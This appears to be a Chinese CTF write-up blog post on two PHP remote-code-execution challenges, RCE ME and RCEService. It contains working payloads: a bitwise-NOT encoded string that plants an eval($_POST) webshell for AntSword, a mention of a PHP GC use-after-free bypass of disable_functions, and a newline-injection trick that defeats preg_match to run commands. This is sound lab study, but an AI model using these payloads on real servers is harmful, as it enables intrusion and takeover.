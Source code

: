 ```yaml
---
layout: post
title:  RCE
date:   2021-07-22 00:01:01 +0300
image:  2021-07-22-candle.jpg
tags:   [ctf,web,RCE]
---
```


RCE(remote command/code execute)，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

### [极客大挑战 2019]RCE ME

```assembly
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

过滤了`所有英文字母和数字`，但是我们知道ASCII码中还有很多`字母数字之外的字符`，利用这些字符进行**取反**或**异或**可以得到我们想要的字符

> PS：取ASCII表种非字母数字的其他字符，要注意有些字符可能会影响整个语句执行，所以要去掉如：反引号，单引号

```
<?php
echo urlencode(~"phpinfo");
```

`%8F%97%8F%96%91%99%90`

因为是取反，所以还要再次取反，而且要加分号。

`?code=(~%8F%97%8F%96%91%99%90)();`

在phpinfo查看禁用的系统函数

| Directive         | Local Value                                                  | Master Value                                                 |
| ----------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| disable_functions | pcntl_alarm,<br>pcntl_fork,<br/>pcntl_waitpid,<br/>pcntl_wait,<br/>pcntl_wifexited,<br/>pcntl_wifstopped,<br/>pcntl_wifsignaled,<br/>pcntl_wifcontinued,<br/>pcntl_wexitstatus,<br/>pcntl_wtermsig,<br/>pcntl_wstopsig,<br/>pcntl_signal,<br/>pcntl_signal_get_handler,<br/>pcntl_signal_dispatch,<br/>pcntl_get_last_error,<br/>pcntl_strerror,pcntl_sigprocmask,<br/>pcntl_sigwaitinfo,<br/>pcntl_sigtimedwait,pcntl_exec,<br/>pcntl_getpriority,<br/>pcntl_setpriority,<br/>pcntl_async_signals,<br/>system,exec,<br/>shell_exec,<br/>popen,<br/>proc_open,<br/>passthru,<br/>symlink,link,<br/>syslog,<br/>imap_open,<br/>ld,<br/>dl | pcntl_alarm,<br/>pcntl_fork,<br/>pcntl_waitpid,<br/>pcntl_wait,<br/>pcntl_wifexited,<br/>pcntl_wifstopped,<br/>pcntl_wifsignaled,<br/>pcntl_wifcontinued,<br/>pcntl_wexitstatus,<br/>pcntl_wtermsig,<br/>pcntl_wstopsig,<br/>pcntl_signal,<br/>pcntl_signal_get_handler,<br/>pcntl_signal_dispatch,<br/>pcntl_get_last_error,<br/>pcntl_strerror,<br/>pcntl_sigprocmask,<br/>pcntl_sigwaitinfo,<br/>pcntl_sigtimedwait,<br/>pcntl_exec,<br/>pcntl_getpriority,<br/>pcntl_setpriority,<br/>pcntl_async_signals,<br/>system,<br/>exec,<br/>shell_exec,<br/>popen,<br/>proc_open,<br/>passthru,<br/>symlink,<br/>link,<br/>syslog,<br/>imap_open,<br/>ld,<br/>dl |

构造一个shell连上蚁剑

```assembly
<?php

error_reporting(0);
$a = 'assert';
$b = urlencode(~$a);
echo $b;
echo "\n";
$c = '(eval($_POST[melody]))';
$d = urlencode(~$c);
echo $d;
```

`%9E%8C%8C%9A%8D%8B
%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%9A%93%90%9B%86%A2%D6%D6`

`/?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%9A%93%90%9B%86%A2%D6%D6);`

连接蚁剑后，看到根目录下存在flag和readflag文件，应该是通过执行readflag来读取flag。但是无法读取flag，考虑到rce，又禁用那么多系统函数。利用PHP7的UAF，通过蚁剑的绕过disable_functions来执行。选择PHP_GC_UAF，点击开始。cd到根目录，执行`./readflag`

flag{3c7b1b32-998c-4bdf-bd3c-9a28ca47ca42}

### [FBCTF2019]RCEService

题目给了源码

```assembly
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

过滤的很严，但是可以绕过preg_match函数本身

第一种方法：因为preg_match只会去匹配第一行，所以这里可以用多行进行绕过

源码中可以看到putenv('PATH=/home/rceservice/jail')已经修改了环境变量，我们只能用绝对路径来调用系统命令

cat命令在/bin中保存

所以构造出payload，%0A是换行符

```assembly
{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

不知道为什么不能直接在表单框里输入，要在url中输入。

`?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

flag{34edc62e-623e-4380-8be6-3252086e72aa}